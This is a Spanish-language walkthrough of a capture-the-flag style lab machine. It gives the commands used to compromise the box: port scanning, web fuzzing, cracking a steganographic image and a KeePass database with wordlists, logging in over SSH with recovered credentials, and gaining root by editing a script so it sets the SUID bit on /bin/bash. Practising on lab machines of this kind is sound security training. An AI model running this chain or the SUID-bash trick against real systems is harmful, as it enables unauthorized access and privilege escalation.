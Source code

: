 Primero haremos un escaneo de la ip víctima para ver que servicios están corriendo en los puertos abiertos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```
![alt text](image.png)

Vemos que tiene el puerto 80 con una web asociada, entonces vamos a ver que esconde.
![alt text](image-1.png)

Vemos que nos muestra la pagina por defecto de apache en una máquina ubuntu. Vamos a realizar un fuzzing de la web para ver si esconde algo más.
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r --no-error -b 404,403 -x txt,html,php
```
![alt text](image-2.png)

Vemos que nos muestra un título de un html que pueder responder como el nombre de la potencial página a vulnerar.
![alt text](image-3.png)

Tras analizar la web con detalle, no he encontrado más información por donde tirar, asi que he pensado que me podia descargar la imagen y analizarla con más detalle.
```
stegseek penguin.jpg /usr/share/wordlists/rockyou.txt -xf img
```
![alt text](image-4.png)

Vemos que nos da un archivo .kdbx que es un cifrado, aparte nos da una parssword que es para descifrar el archivo. Primero habrá que extraer este archivo.
```
steghide --extract -sf penguin.jpg -p chocolate
```
![alt text](image-5.png)

Vemos que se nos ha generado el archivo, seguidamente, vamos a expraer el hash.
```
keepass2john penguin.kdbx > hash
```
![alt text](image-6.png)

Una vez tenemos el hash, vamos a descifrarlo.
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
![alt text](image-7.png)

Una vez tenemos la contraseña del archivo cifrado, vaomos a abrir el archivo.
```
keepass2 penguin.kdbx
```
![alt text](image-8.png)

![alt text](image-9.png)

![alt text](image-10.png)

![alt text](image-11.png)

Una vez obtenida la contraseña del uduario penguin, podemos acceder por ssh.
```
ssh penguin@172.17.0.2
password: pinguinomaravilloso123
```
![alt text](image-12.png)

Una vez estamos dentro, vamos a intentar conseguir los máximos privileguios o el usurario root (administrador). Al ver que en la carpeta de usuario, nos daba dos archivos y uno de ellos era bash, miramos sus conenidos y permisos.
```
ls -l
cat archivo.txt
cat script.sh
```
![alt text](image-13.png)

Modificaremos el archivo script.sh para poder acceder a root.
```
#!/bin/bash

chmod u+s /bin/bash

echo 'pinguino no hackeable' > archivo.txt
```

Una vaez modificado ejecutaremos `ls -l /bin/bash` y finalmente nos generaremos una bash.
```
bash -p
whoami
```
![alt text](image-14.png)